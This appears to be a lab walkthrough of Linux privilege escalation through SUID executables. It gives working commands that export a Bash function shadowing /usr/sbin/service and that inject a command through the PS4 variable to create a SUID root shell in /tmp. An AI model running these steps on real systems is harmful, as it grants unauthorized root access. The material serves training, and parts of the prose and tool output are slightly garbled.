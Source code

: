 
Verify this with strings:

`strings /usr/local/bin/suid-env2`

```bash
/lib64/ld-linux-x86-64.so.2
~~__gmon_start__
libc.so.6
setresgid
setresuid
system~~
~~__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H~~
/usr/sbin/service apache2 start

```

we have something called apache2 service to start command here 

lets Verify the version of Bash installed on the Debian VM is less than 4.2-048:

`/bin/bash --version`

we got `version 4.1.5(1)-release (x86_64-pc-linux-gnu)`

Create a Bash function with the name "**/usr/sbin/service**" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

`function /usr/sbin/service { /bin/bash -p; }export -f /usr/sbin/service`

Run the **suid-env2** executable to gain a root shell:

`/usr/local/bin/suid-env2`
<img width="1676" height="279" alt="LPE19" src="https://github.com/user-attachments/assets/29fe5783-72bd-41ed-af0f-2bd8fd48d147" />


Task 15 SUID / SGID Executables - Abusing Shell Features (#2)

In this Debian VM bash has version 4.4 and above only,

to debugging node this we need to use environment variable `PS4` to display an extra prompt

Run the **`/usr/local/bin/suid-env2`** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

this is same like task 6  
<img width="1919" height="462" alt="LPE20" src="https://github.com/user-attachments/assets/e4f4c017-09b1-421f-9b85-20f6d76cd59e" />
